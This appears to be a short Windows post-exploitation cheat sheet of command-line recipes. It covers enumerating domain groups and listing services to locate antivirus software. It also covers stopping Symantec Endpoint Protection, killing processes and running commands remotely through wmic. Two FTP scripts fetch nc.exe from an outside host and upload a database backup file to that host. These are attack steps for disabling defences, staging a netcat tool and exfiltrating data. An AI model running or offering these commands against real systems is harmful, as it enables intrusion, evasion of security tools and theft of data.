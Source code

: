 View domain groups
```
	net group /domain
	powershell (new-object system.directoryservices.directorysearcher("(&(objectcategory=user)(samaccountname=$($env:username)))")).FindOne().GetDirectoryEntry().memberof
```

View the list of started services (search for antivirus):
```
	net start
	sc query
```

Stop a service:	
```
	net stop "Symantec Endpoint Protection"
```

View the list of started processes and the owner:
```	
	tasklist /v
```

Kill a process by its name:	
```	
	taskkill /F /IM "cmd.exe"
```

Abort a shutdown/restart countdown:	
```	
	shutdown /a
```

Download an executable from a remote FTP server:
```
	echo open 10.1.2.3> C:\script.txt
	echo user myftpuser>> C:\script.txt
	echo pass myftppass>> C:\script.txt
	echo get nc.exe>> C:\script.txt
	echo bye>> C:\script.txt
	ftp -s:script.txt
```

Upload a file to a remote FTP server:
```
	echo open 10.1.2.3> C:\script.txt
	echo user myftpuser>> C:\script.txt
	echo pass myftppass>> C:\script.txt
	echo put E:\backups\database.dbf>> C:\script.txt
	echo bye>> C:\script.txt
	ftp -s:script.txt
```

WMI call remote system
```
    wmic /node:remote_computer process call create "netstat.exe -ano > C:\output.txt"
```

WMI get startup items
```
    wmic startup get Caption, Command, User
```
